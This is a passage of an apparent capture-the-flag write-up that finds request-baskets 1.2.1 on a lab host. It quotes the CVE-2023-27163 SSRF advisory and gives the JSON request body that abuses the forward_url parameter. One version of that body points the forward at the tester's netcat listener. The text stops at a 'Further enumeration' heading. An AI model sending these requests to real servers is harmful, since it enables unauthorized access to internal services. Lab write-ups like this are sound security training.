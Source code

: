 ```shell
|     Allow: GET, OPTIONS
|     Date: Mon, 10 Jul 2023 07:32:30 GMT
|_    Content-Length: 0
```

Port 80 and 8338 cannot be access through browser.

Now accessing the /web on port 55555, and checking if the version of request-baskets is vulnerable
```
http://10.129.248.192:55555/web

Powered by request-baskets | Version: 1.2.1 
https://github.com/darklynx/request-baskets
```

<br>

## Road to User

### CVE-2023-27163 - SSRF
https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3

> [Affected Component]
> 
> The API endpoints `/api/baskets/{name}`, `/baskets/{name}` are vulnerable to unauthenticated Server-Side Request Forgery (SSRF) attacks via the `forward_url` parameter.


> [Attack Vectors]
> 
> POC: `POST /api/baskets/{name} API with payload - {"forward_url": "http://127.0.0.1:80/test","proxy_response": false,"insecure_tls": false,"expand_path": true,"capacity": 250}`
> 
> Details can be seen: https://notes.sjtu.edu.cn/s/MUUhEymt7

SSRF Vector
```
POST /api/baskets/{name}
[...]

{
    "forward_url": "http://10.10.16.9:9001/",
    "proxy_response": false,
    "insecure_tls": false,
    "expand_path": true,
    "capacity": 250
}
```
> Following the CVE-2023-27163. This just returns the response to a netcat listener and cannot execute shell commands.

<br>

### Further enumeration
